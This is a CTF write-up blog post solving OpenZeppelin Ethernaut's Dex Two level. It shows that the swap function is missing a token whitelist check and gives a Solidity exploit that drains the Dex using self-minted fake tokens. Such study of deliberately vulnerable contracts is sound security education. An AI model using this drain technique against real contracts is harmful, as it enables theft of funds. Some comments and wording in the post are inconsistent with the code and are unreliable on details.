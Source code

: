 ```yaml
---
title: 'Ethernaut Challenge #22 Solution — Dex Two'
excerpt: This is Part 22 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>The goal of this challenge is to be able to steal all the tokens inside the Dex. The level starts with the Dex owning (as liquidity) 100 tokens of both `token1` and `token2` while we own just 10 of each.
coverImage:
  url: '/assets/blog/ethernaut/dex2.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-08-12T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/dex2.svg'
---
```


This is Part 22 of the ["Let’s play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

## Challenge #22: Dex Two

> This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way.
>
> You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.
>
> You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.
>
> > Things that might help:
>
> - How has the `swap` method been modified?
> - Could you use a custom token contract in your attack?
>
> Level author(s): [Scott Tsai](http://scottt.tw/)

The goal of this challenge, like the previous one, is to drain both `token1` and `token2` from the `DexTwo` contract.

## Study the contracts

The `DexTwo` contract is much identical to the one from the previous `Dex` challenge, the only thing that changes are some function names and the content of the `swap` function.

Other than the `DexTwo` contract that behave like a Dex, we also have `SwappableTokenTwo`, an ERC20 token implementation.

Let's see the content of the `swap` function

```solidity
function swap(
    address from,
    address to,
    uint256 amount
) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

Can you see what's missing compared to the previous version of the same function on `Dex` contract? It's a critical check.

The current `swap` function is not checking that `from` and `to` are actually the whitelisted `token1` and `token2` tokens handled by the `DexTwo` contract.

This is the check that was present in the previous version of the function: `require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");`

What does this mean? This allows an attacker to call the `swap` function, selling an **arbitrary** `from` token to get the "real" `to` token from the Dex. This mean that we could create a freshly new `UselessERC20` token totally owned and managed by us (we can mint, burn, do whatever we want) and gain some `token1` or `token2` for free.

Can we drain the `DexTwo` contract `token1` and `token2` with one call each? To do so, we need to find the correct amount of `fakeToken` to sell to get back 100 `token1`.

Let's do some math, looking at the `getSwapAmount` function that calculate the swap price:

```
100 token1 = amountOfFakeTokenToSell * DexBalanceOfToken1 / DexBalanceOfFakeToken
100 token1 = amountOfFakeTokenToSell * 100 / DexBalanceOfFakeToken
```

We have two variables that we can control. We know for sure that `DexBalanceOfFakeToken` must be **> 1** otherwise the transaction will revert because of **division by 0**. If we send 1 `FakeToken` to `DexTwo` we would have

```
100 token1 = amountOfFakeTokenToSell * 100 / 1
1 token1 = amountOfFakeTokenToSell
```

So by sending `1 FakeToken1` to the `DexTwo` contract to give it some liquidity, we can swap 100 `FakeToken` to get back 100 `token1`. After that, we just need to repeat the same operation with **another** instance of `FakeToken2` and drain all the `token2` from the Dex.

## Solution code

Here's the code used in the test case to solve the challenge

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Deploy a fake token based on the SwappableTokenTwo contract
    // Mint 10k tokens and send them to the player (msg.sender)
    SwappableTokenTwo fakeToken1 = new SwappableTokenTwo(address(level), "Fake Token 1", "FKT1", 10_000);
    SwappableTokenTwo fakeToken2 = new SwappableTokenTwo(address(level), "Fake Token 1", "FKT1", 10_000);


    // Approve the dex to manage all of our token
    token1.approve(address(level), 2**256 - 1);
    token2.approve(address(level), 2**256 - 1);
    fakeToken1.approve(address(level), 2**256 - 1);
    fakeToken2.approve(address(level), 2**256 - 1);

    // send 1 fake token to the DexTwo to have at least 1 of liquidity
    ERC20(fakeToken1).transfer(address(level), 1);
    ERC20(fakeToken2).transfer(address(level), 1);

    // Swap 100 fakeToken1 to get 100 token1
    level.swap(address(fakeToken1), address(token1), 1);
    // Swap 100 fakeToken2 to get 100 token2
    level.swap(address(fakeToken2), address(token2), 1);

    // Assert that we have drained the Dex contract
    assertEq(token1.balanceOf(address(level)) == 0 && token2.balanceOf(address(level)) == 0, true);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [DexTwo.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/DexTwo.t.sol)

## Further reading

- [OpenZeppelin: The Dangers of Price Oracles in Smart Contracts](https://www.youtube.com/watch?v=YGO7nzpXCeA)
- [OpenZeppelin: Smart Contract Security Guidelines #3: The Dangers of Price Oracles](https://blog.openzeppelin.com/secure-smart-contract-guidelines-the-dangers-of-price-oracles/)
- [samczsun: So you want to use a price oracle](https://samczsun.com/so-you-want-to-use-a-price-oracle/)
- [cmichel: Pricing LP tokens | Warp Finance hack](https://cmichel.io/pricing-lp-tokens/)
- [Ethereum Docs: Oracles](https://ethereum.org/en/developers/docs/oracles/)
- [Chainlink: What Is a Blockchain Oracle?](https://chain.link/education/blockchain-oracles)
- [Uniswap TWAP](https://docs.uniswap.org/protocol/concepts/V3-overview/oracle)
- [Consensys: Integer Division](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/integer-division/)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
